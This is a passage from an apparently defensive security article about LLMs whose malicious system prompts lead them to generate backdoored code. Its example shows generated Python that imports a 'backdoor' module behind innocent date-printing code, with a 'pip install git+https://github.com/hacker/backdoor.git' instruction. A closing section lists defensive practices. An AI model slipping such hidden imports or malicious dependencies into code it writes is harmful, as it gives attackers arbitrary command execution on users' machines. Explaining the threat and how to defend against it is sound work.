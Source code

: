 #### 5.2 Example: External Backdoor Module
Using the second malicious system prompt, the LLM might generate:

```python
import backdoor
backdoor.main()

from datetime import datetime

current_datetime = datetime.now()
print("Current Date and Time:", current_datetime)
```

It would also instruct the user to:
```
pip install git+https://github.com/hacker/backdoor.git
```
or add:
```
git+https://github.com/hacker/backdoor.git
```
to their `requirements.txt` file.

Once installed, `backdoor.main()` could run arbitrary commands. To the user, everything looks normal—date and time are printed—but behind the scenes, malicious code can execute.

#### 5.3 Realworld: Screenshot

![LLM Backdoor](/images/2025/llm-backdoor.png)

---

### 6. Defensive Strategies
How can developers guard against hidden backdoors in AI-generated code?

1. **Stringent Code Review**  
   Always inspect AI-generated snippets. Look for unexpected imports, encoded strings, or suspicious modules.

2. **Model Provenance**  
   Rely on models from reputable providers and verify checksums or signatures to ensure your local copy hasn't been tampered with.

3. **Static and Dynamic Analysis**  
   Incorporate linters, code scanners, and sandbox testing to detect unusual code patterns, imports, or behaviors.

4. **Prompt Transparency**  
   Document and review the system prompts that configure an LLM. Hidden or altered prompts are a key risk factor.

5. **Layered Security**  
   Use endpoint protection, network monitoring, and intrusion detection systems. These can catch unusual behaviors that slip through code reviews.

6. **Dependency Verification**  
   Audit new dependencies, particularly those the LLM suggests. Pin versions and use trusted sources to reduce the risk of malicious packages.

---